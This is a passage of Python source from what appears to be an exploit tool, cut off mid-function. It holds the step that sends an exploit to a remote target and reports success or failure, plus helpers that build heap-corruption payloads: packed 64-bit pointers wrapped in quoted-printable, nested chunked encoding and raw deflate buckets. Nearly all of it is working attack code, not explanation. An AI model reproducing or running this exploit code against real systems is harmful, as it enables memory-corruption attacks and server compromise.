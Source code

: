~~~ python

        try:
            msg_print("Sending exploit...")
            print(f'PATH: {path}')

            self.remote.send_exploit(path)
        except (ConnectionError, ChunkedEncodingError):
            pass
       
        msg_print()
       
        if not self.sleep:
            msg_print("    [b white on black] EXPLOIT [/][b white on green] SUCCESS [/] [i](probably)[/]")
        elif start + self.sleep <= time.time():
            msg_print("    [b white on black] EXPLOIT [/][b white on green] SUCCESS [/]")
        else:
            # Wrong heap, maybe? If the exploited suggested others, use them!
            msg_print("    [b white on black] EXPLOIT [/][b white on red] FAILURE [/]")
       
        msg_print()

def compress(data) -> bytes:
    """Returns data suitable for `zlib.inflate`.
    """
    # Remove 2-byte header and 4-byte checksum
    return zlib.compress(data, 9)[2:-4]


def b64(data: bytes, misalign=True) -> bytes:
    payload = base64.encode(data)
    if not misalign and payload.endswith("="):
        raise ValueError(f"Misaligned: {data}")
    return payload.encode()


def compressed_bucket(data: bytes) -> bytes:
    """Returns a chunk of size 0x8000 that, when dechunked, returns the data."""
    return chunked_chunk(data, 0x8000)

def qpe(data: bytes) -> bytes:
    """Emulates quoted-printable-encode.
    """
    return "".join(f"={x:02x}" for x in data).upper().encode()

def ptr_bucket(*ptrs, size=None) -> bytes:
    """Creates a 0x8000 chunk that reveals pointers after every step has been ran."""
    if size is not None:
        assert len(ptrs) * 8 == size
    bucket = b"".join(map(p64, ptrs))
    bucket = qpe(bucket)
    bucket = chunked_chunk(bucket)
    bucket = chunked_chunk(bucket)
    bucket = chunked_chunk(bucket)
    bucket = compressed_bucket(bucket)

    return bucket

def chunked_chunk(data: bytes, size: int = None) -> bytes:
    """Constructs a chunked representation of the given chunk. If size is given, the
    chunked representation has size `size`.
    For instance, `ABCD` with size 10 becomes: `0004\nABCD\n`.
    """
~~~